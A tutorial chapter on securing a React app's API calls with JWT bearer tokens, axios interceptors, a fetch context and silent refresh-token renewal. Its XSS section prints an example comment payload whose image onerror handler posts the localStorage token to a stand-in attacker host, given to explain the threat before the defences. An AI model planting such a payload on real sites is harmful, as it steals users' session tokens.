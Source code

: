 # Protected API endpoints - Chapter 3
As much as we do our best to protect our data with the changes in the last chapters,
you can never fully protect it only on the frontend because our javascript is accessible (and can be changed) to any visitor.

Therefore, it is crucial that our API endpoints are protected. There are a couple ways to do this.
For example the backend could open a session and set a cookie in your browser when you login and verify this cookie on every call.
Another popular way is to retrieve an access token (JWT) when you log in, that's what's happening in this app.
We can then grab this token in the frontend and add it to the Headers of every call.
The backend can verify this token (by calling the auth server). A big advantage of this, is that it allows
for SSO (single sign on).
This is possible, because we could re-use this cookie for different applications (they can grab it from the localStorage),
and the backend of those applications can all verify the cookie with the same authorization server.
Another cool thing is that CSRF attacks are not an issue (they are related to cookies).
On the other hand we expose ourselves to XSS attacks (cross site scripting), below we will talk about how to handle this.

## Adding the token to our AJAX calls.
You might have noticed that we use the `axios` library to make our calls to the backend. This library makes it very easy
to intercept each call and add a Header to it, which is exactly what we need to do with our access token.
If you run the following code somewhere in your app, an `Authorization` header will be added to all AJAX calls.
```js
axios.interceptors.request.use(
    config => {
        config.headers.authorization = `Bearer ${accessToken}`;
        return config;
    }
)
```
It's a better practice to actually make a different instance of `axios` that adds this `Authorization` header, so 
that we can choose when to send the header and when not. It wouldn't be super safe to send our token to every
public API we are calling with our application.
```js
const authAxios = axios.create({
    baseUrl: apiUrl,
    headers: {
        Authorization: `Bearer ${accessToken}` 
    }
});
```
We can then use the `authAxios` for making calls (for example `authAxios.get('/clients')`)
Now how can we share this `authAxios` instance throughout the application, so that we can use it?
And how can we access the `accessToken` to create this `authAxios` instance in the first place? 
When we talk about sharing something throughout the application, hopefully you're already getting the idea
that we could use the `Context` API for this! And this also allows us to create a wrapper component around the `Provider`, 
so that we can call `useContext(AuthContext)`, to access the accessToken!

Create a file in your `auth` module for our context `src/auth/contexts/FetchContext.tsx`
```tsx
import React, { createContext, useContext, useEffect, useState } from "react";
import axios, { AxiosInstance } from "axios";
import { AuthContext } from "./AuthContext";

const FetchContext = createContext<AxiosInstance>(axios);
const { Provider } = FetchContext;

const FetchProvider = ({ children }: { children: React.ReactNode }) => {
  const [authAxios] = useState(() => axios.create({
            baseURL: process.env.REACT_APP_API_URL,
        }));
  const { authState } = useContext(AuthContext);

  useEffect(() => {
      authAxios.interceptors.request.use(
          (config) => {
              config.headers.Authorization = `Bearer ${authState?.token}`;
              return config;
          },
          (error) => Promise.reject(error)
      );
  }, [authState])

  return <Provider value={authAxios}>{children}</Provider>;
};

export { FetchContext, FetchProvider };
```
If you haven't seen `process.env.REACT_APP_API_URL` before, this is the way we can provide environment variables with CRA.
These variables are defined in the `.env` file in our root folder.
Read more about it [here](https://create-react-app.dev/docs/adding-custom-environment-variables/)

Now to use this `AxiosInstance` in our app, we wrap the `FetchProvider` Around the `App`, but INSIDE the `AuthProvider`,
so that we can access the `AuthContext`.
```tsx
<AuthProvider>
  <FetchProvider>
    <App />
  </FetchProvider>
</AuthProvider>
```
The last thing you need to do, is to search for all uses of `axios`, and replace it with our new instance.
For example in the `ClientsTable`
```js
const retrieveClients = async () => {
    const result = (await axios.get(`${process.env.REACT_APP_API_URL}/clients`)).data;
    setClients(result);
};
```
becomes
```tsx
const authAxios = useContext(FetchContext);
const retrieveClients = async () => {
    const result = (await authAxios.get("/clients")).data;
    setClients(result);
};
```

## Dealing with XSS
A cross site scripting attack is when an attacker is able to execute JavaScript code on your application.
Consider this scenario: 
I'm an attacker and go to a page on an app where users can leave comments or something.
I write this comment: 
```html
Hello, cool blog. <img src=???
onerror="fetch('hackers-delight.com', 
 { method: 'POST', body: localStorage.getItem('token')})" />
```
Now everyone that reads this comment will send off his/her token to my server.

2 best practices to deal with XSS:
* Use a framework like React (but also Angular, etc.), they will do a lot of work to sanitize all user input.
* create tokens with a short lifetime (for example 10 minutes).

### Refreshtokens
We want to avoid that a user has to re-loging everytime we expire our tokens.
For this we receive a refreshtoken from the auth server when we login. We store this token and exchange it for a new
access token when the old one is about to expire.
You may ask yourself why it is safe for these tokens not to expire, if it is unsafe for normal access tokens.
Well, it is not completely safe, but it is safer because:
* It is a one-time token. Once it is used, it loses it's value for an attacker.
* You only send it once over the wire, in contrast to an access token that will be added to all (or most) calls.

On top of that, you can implement extra security measures. 
For example, the auth server can implement that if a refreshtoken is used twice, it logs out both users that used this token.
The auth server can't know which one of the 2 is an attacker, but this way no harm can be done.

### Using the refreshtokens in our app.
Our sts provides us with a refreshtoken when we log in, you can see this in the sessionStorage.
Again the `oidc-client-js` makes it very easy to implement a silent refresh.
the `UserManager` raises events when the token is about to expire, or when it is expired. 
We can subscribe to these events and do a silent sign in (exchange the refreshtoken for a new access token).
Add the following effect to the `AuthProvider` component to do so.
```tsx
useEffect(() => {
    userManager.events.addAccessTokenExpiring(() => {
        renewToken()
    })
    userManager.events.addAccessTokenExpired(() => {
        renewToken()
    })
}, [])
const renewToken = (): Promise<User | void> =>
    userManager
        .signinSilent()
        .then((user) => setAuthInfo(user))
        .catch((err) => userManager.removeUser());

```

### Refreshing a stale access token on startup.
It is also possible that we have an expired token in the `sessionStorage` when we startup the application. 
We will change the `loadUser` logic in our `AuthProvider`, since this will be called when this component is mounted.
```tsx
const loadUser = () => userManager.getUser().then((user) => {
  if (user && user.expired) {
      // will only work for refreshes.
      // Save the token in localStorage if you want it to work in a completely new tab also.
      renewToken();
    } else if(user) {
      setAuthInfo(user);
    }
});
```
